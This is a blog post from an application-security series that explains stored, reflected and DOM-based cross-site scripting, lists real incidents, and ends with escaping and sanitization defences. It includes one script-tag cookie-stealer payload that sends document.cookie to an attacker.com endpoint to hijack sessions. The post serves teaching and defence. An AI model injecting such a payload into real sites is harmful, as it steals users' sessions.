 ```yaml
---
layout: post
lang: en
title: Cross-site Scripting (XSS) 😈
slug: xss
URL: https://levelup.gitconnected.com/cross-site-scripting-xss-fd374ce71b2f
author: Martin Thoma
date: 2020-10-16 20:00
category: Security
tags: InfoSec, AppSec, Security, Cybersecurity
featured_image: logos/cybersecurity.png
---
```

Cross-site scripting (XSS) is a type of attack on websites where the attacker can make the attacked website deliver JavaScript to the user. This malicious JavaScript is then executed on the users’ machine.

Various types of XSS are distinguished:

* **Stored XSS**: The attacker can make the website store the XSS, e.g. by crafting a comment on Facebook or a chat message on Twitch which contains the malicious message. The malicious message is then delivered to every new client which accesses the page.
* **Reflected XSS**: Some websites allow you to create links that you can share. For example, a Google search. The URL contains the search term and if somebody clicks on that link, Google will show the search term from the link on the page. So Google reflects a parameter of the link on the page. If an attacker changes the search term to contain code, that code could potentially be executed by the browser of any user who clicks on the link.
* **DOM-based XSS**: In modern web applications the logic is mostly in the client. This means the attacker does not have to go to the server-side to do harm. The on-site JavaScript is attacked. In contrast to the reflected XSS, the server didn’t directly cause the issue. The (valid) JavaScript on the page read the attack.

The **attack surface** is pretty big for modern websites. Any user-supplied
data can contain an XSS attack. It could be a comments section, advertisement,
the document.referrer, URL fragments, …

## Why it Matters

* XSS is part of the [OWASP Top-10](https://owasp.org/www-project-top-ten/), meaning it’s recognized as a common vulnerability
* There are **14,625 CVE entries for XSS** vulnerabilities on mitre.org ([source](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=cross-site))
* **2005**: MySpace had a worm called [Samy](https://en.wikipedia.org/wiki/Samy_(computer_worm)). Within 20 hours, the author got one million users to friend him ([source](https://www.vice.com/en/article/wnjwb4/the-myspace-worm-that-changed-the-internet-forever)). **MySpace had to take the site down because of this XSS attack.**
* **2011**: Facebook worm allows automatic wall posts ([source](https://community.broadcom.com/symantecenterprise/communities/community-home/librarydocuments/viewdocument?DocumentKey=6c4ddf17-8e6d-4e92-8bec-f918cbf61afc&CommunityKey=1ecf5f55-9545-44d6-b0f4-4e4a7f5f5e68&tab=librarydocuments))
* **2013**: PayPal was vulnerable as discovered by [Robert Kugler](https://s3cur3.it/references) ([source](https://seclists.org/fulldisclosure/2013/May/163)). It was likely possible to create a link which made a payment when you clicked on it, without you needing to interact.
* **2013**: Yahoo was vulnerable to reflected XSS ([source](https://arstechnica.com/information-technology/2013/01/how-yahoo-allowed-hackers-to-hijack-my-neighbors-e-mail-account/))
* **2016**: Researcher found XSS vulnerability on Facebook ([source](https://whitton.io/articles/xss-on-facebook-via-png-content-types/))
* **2018**: Uber was vulnerable to a reflected XSS attack ([source](https://hackerone.com/reports/191810)). Uber paid $3000 for it.
* **2019**: Steam was vulnerable to a stored XSS attack ([source](https://hackerone.com/reports/409850)). Steam paid $7500 for it.
* **2020**: Facebook paid **$20,000** for finding an XSS attack ([source](https://portswigger.net/daily-swig/xss-vulnerability-in-login-with-facebook-button-earns-20-000-bug-bounty)).
* **2020**: Tumblr was vulnerable to a DOM-based XSS attack ([source](https://hackerone.com/reports/882546)). Automattic paid $350 for it.

![Photo by [Aarón Blanco Tejedor](https://unsplash.com/@healing_photographer?utm_source=medium&utm_medium=referral) on [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral)](https://cdn-images-1.medium.com/max/9856/0*ExwQ55rXgbShCgmN)*Photo by [Aarón Blanco Tejedor](https://unsplash.com/@healing_photographer?utm_source=medium&utm_medium=referral) on [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral)*

## How are XSS attacks executed?

There are various ways attackers can do harm: They can **make the website
unusable** if the XSS script is on it. They can run a **cryptocurrency miner**.
They can **steal sensitive data**.

As promised, it follows how to design a **cookie stealer** for **account
hijacking**.

We just assume that we have a website like Facebook where you can add comments
to posts. We assume that the comments are just taken as is and copied to
everybody who opens the page. The comment we make is

```html
<script>
    image = new Image();
    image.src='[https://attacker.com/steal?cookie='+document.cookie](https://attacker.com/?'+document.cookie);
</script>
```

You can see that this will not do anything — for the other users, this will
just look like an empty message. It will not refresh the page. It will not open
another window. But it will call http://attacker.com/steal with a GET request
which has a cookie parameter. Hence on the side of the attacker there only
needs to be a web server that is reachable and logs those requests. After that,
the attacker can use the cookie and impersonate the victim. The attacker
doesn’t know the victims' credentials but hijacked the session instead.

## What can I do to prevent XSS attacks?

Never blindly trust user data. Remove potentially harmful parts, escape parts
that will change the expected output. You might want to remove and `<script>`
tags or replace `<` by `&lt;`. It’s not enough, though. You can also execute
JavaScript with the
[onload attribute](https://www.w3schools.com/jsref/event_onload.asp). That
attribute can be added to many or even all HTML tags.

Various languages have methods to escape those:

* Go: [EscapeString](https://golang.org/pkg/html/#EscapeString)
* Java: [org.apache.commons.lang.StringEscapeUtils.escapeHtml](https://commons.apache.org/proper/commons-lang/javadocs/api-2.6/org/apache/commons/lang/StringEscapeUtils.html#escapeHtml(java.lang.String))
* JavaScript: [DOMPurify](https://www.npmjs.com/package/dompurify)
* Python: [html.escape](https://docs.python.org/3/library/html.html#html.escape)
* PHP: [htmlspecialchars](https://www.php.net/manual/en/function.htmlspecialchars.php)
* Ruby: [htmlescape](https://ruby-doc.org/stdlib-2.6.3/libdoc/erb/rdoc/ERB/Util.html#method-c-html_escape)
* Rust: [htmlescape::encode_miniaml](https://docs.rs/htmlescape/0.3.1/htmlescape/fn.encode_minimal.html)

Also, make sure you do that as early as possible. There should be a secure way
to use data from the database — and that should not require to know that there
is potentially harmful data within it. So escape the data before you put it in
the DB. Make sure escaping is
[idempotent](https://en.wikipedia.org/wiki/Idempotence) — escaping two times
should be the same as escaping once. If you really think you need the original
somewhere, you can have a _raw field in the database. Or you have a data access
layer (DAL) that takes care of the escaping.

Remember to **sanitize ALL user inputs**, not only stuff that was in input fields. Don’t forget about [URL fragments](https://martin-thoma.com/tags.html#klausur-ref) and [Document.referrer](https://developer.mozilla.org/en-US/docs/Web/API/Document/referrer) .

## See also

I love [Tom Scott](https://en.wikipedia.org/wiki/Tom_Scott_(entertainer)) and [Computerphile](https://www.youtube.com/user/Computerphile) and they made a video about the topic!

<center><iframe width="560" height="315" src="https://www.youtube.com/embed/L5l9lSnNMxg" frameborder="0" allowfullscreen></iframe></center>

## What’s next?

In this series about application security (AppSec) we already explained some of the techniques of the attackers 😈 and also techniques of the defenders 😇:

* Part 1: [SQL Injections](https://medium.com/faun/sql-injections-e8bc9a14c95) 😈
* Part 2: [Don’t leak Secrets](https://levelup.gitconnected.com/leaking-secrets-240a3484cb80) 😇
* Part 3: [Cross-Site Scripting (XSS)](https://levelup.gitconnected.com/cross-site-scripting-xss-fd374ce71b2f) 😈
* Part 4: [Password Hashing](https://levelup.gitconnected.com/password-hashing-eb3b97684636) 😇
* Part 5: [ZIP Bombs](https://medium.com/bugbountywriteup/zip-bombs-30337a1b0112) 😈
* Part 6: [CAPTCHA](https://medium.com/plain-and-simple/captcha-500991bd90a3) 😇
* Part 7: [Email Spoofing](https://medium.com/bugbountywriteup/email-spoofing-9da8d33406bf) 😈
* Part 8: [Software Composition Analysis](https://medium.com/python-in-plain-english/software-composition-analysis-sca-7e573214a98e) (SCA) 😇
* Part 9: [XXE attacks](https://medium.com/faun/xxe-attacks-750e91448e8f) 😈
* Part 10: [Effective Access Control](https://levelup.gitconnected.com/effective-access-control-331f883cb0ff) 😇
* Part 11: [DOS via a Billion Laughs](https://medium.com/bugbountywriteup/dos-via-a-billion-laughs-9a79be96e139) 😈
* Part 12: [Full Disk Encryption](https://medium.com/faun/full-disk-encryption-2090489f9760) 😇
* Part 13: [Insecure Deserialization](https://medium.com/bugbountywriteup/insecure-deserialization-5c64e9943f0e) 😈
* Part 14: [Docker Security](https://levelup.gitconnected.com/docker-security-5f4df118948c) 😇

And this is about to come:

* CSRF 😈
* DOS 😈
* ReDoS 😈
* Credential Stuffing 😈
* Cryptojacking 😈
* Single-Sign-On 😇
* Two-Factor Authentication 😇
* Backups 😇

Let me know if you are interested in more articles around AppSec / InfoSec!
